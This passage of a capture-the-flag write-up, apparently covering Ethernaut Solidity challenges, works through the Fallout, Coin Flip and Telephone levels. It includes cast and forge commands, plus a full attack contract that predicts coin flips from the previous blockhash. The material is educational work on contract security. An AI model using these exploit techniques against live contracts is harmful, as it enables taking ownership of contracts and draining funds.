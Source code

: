 The `Fal1out` function (which was meant as a constructor) is mispelled and doesn't match the contract name `Fallout`! Therefore, we can still call the constructor function which sets `owner = msg.sender`.

- `cast send <challenge_addr> "Fal1out()" --value 777`

This happened in the Rubixi hack incidence, the developers changed the contract’s name from `Dynamic Pyramid` to `Rubixi`. However, they forgot to rename the constructor function to `Rubixi()`, allowing anyone to become the owner and withdraw funds. This is less relevant now that the standard is to use the reserved `constructor` [keyword](https://solidity-by-example.org/constructor/).

****
# Coin Flip

The key is that `block.number` can be known since an attack can execute `flip()` within same block.
- Note that `using SafeMath for uint256` is not required after solidity 0.8.x.
- Deploy contract below `forge create src/AttackCoinflip.sol:AttackCoinflip --verify`    
    - `--verify` uploads the verified source code to Etherscan

```solidity
pragma solidity 0.8.10;

interface ICoinFlip{
    function flip(bool _guess) external returns(bool);
}

contract AttackCoinflip{  
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;		
    address coinflipAddress = 0x07d53476B965f9A594152D85B0e1cfbAc370503f;
    ICoinFlip public coinflipContract = ICoinFlip(coinflipAddress);
    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflipContract.flip(side);
    }
}
```

- Call `flip()` 10x via `cast send <challenge_addr> "flip()" --gas-limit 300000`

****
# Telephone

- Call `changeOwner` from a smart contract instead of my wallet
    - So `tx.origin ≠ msg.sender` since `msg.sender` would be contract address, but `tx.origin` is the signer of the originating transaction (ie. externally-owned account (EOA) derived from a private key)
    - Only wallets (EOAs) can be `tx.origin`, not contracts, whereas either one can be `msg.sender`
- `forge create --private-key $PRIVATE_KEY src/AttackTelephone.sol:AttackTelephone`

